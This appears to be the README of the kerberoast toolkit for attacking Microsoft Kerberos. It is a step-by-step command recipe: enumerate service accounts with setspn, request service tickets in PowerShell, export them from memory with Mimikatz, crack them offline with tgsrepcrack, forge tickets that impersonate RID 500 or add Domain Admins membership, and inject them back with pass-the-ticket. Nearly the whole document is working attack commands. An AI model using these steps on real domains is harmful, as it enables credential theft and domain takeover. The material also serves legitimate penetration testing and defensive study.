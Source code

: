 kerberoast
==========

Kerberoast is a series of tools for attacking MS Kerberos implementations. Below is a brief overview of what each tool does.

Extract all accounts in use as SPN using built in MS tools
----------------------------------------------------------
```
PS C:\> setspn -T medin -Q */*
```

Request Ticket(s)
-----------------
One ticket:  
```
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/web01.medin.local"  
```

All the tickets
```
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> setspn.exe -T medin.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }  
```

Extract the acquired tickets from ram with Mimikatz
---------------------------------------------------
```
mimikatz # kerberos::list /export
```

Crack with tgsrepcrack
----------------------
```
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

Rewrite
-------
Make user appear to be a different user  
```
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -u 500  
```

Add user to another group (in this case Domain Admin)  
```
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -g 512  
```
Inject back into RAM with Mimikatz
----------------------------------
```
kerberos::ptt sql.kirbi
```
